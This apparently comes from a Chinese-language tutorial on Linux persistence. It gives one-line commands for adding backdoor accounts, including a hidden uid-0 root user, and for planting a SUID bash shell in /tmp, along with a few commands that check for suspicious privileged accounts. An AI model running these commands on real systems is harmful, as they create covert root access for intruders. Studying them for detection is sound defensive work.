 本文将对Linux下常见的权限维持技术进行解析，知己知彼百战不殆。

**1、一句话添加用户和密码**

添加普通用户：

```
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest
	
# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd
	
# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
```

添加root用户：

```
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

可疑用户排查技巧：

```
# 查询特权用户特权用户(uid 为0)
[root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
[root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
[root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

**2、SUID Shell**

Suid shell是一种可用于以拥有者权限运行的shell。

```
配合普通用户权限使用
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
```

使用guest用户登录就可疑获取root权限。

![](.\image\privilege-5-1.png)
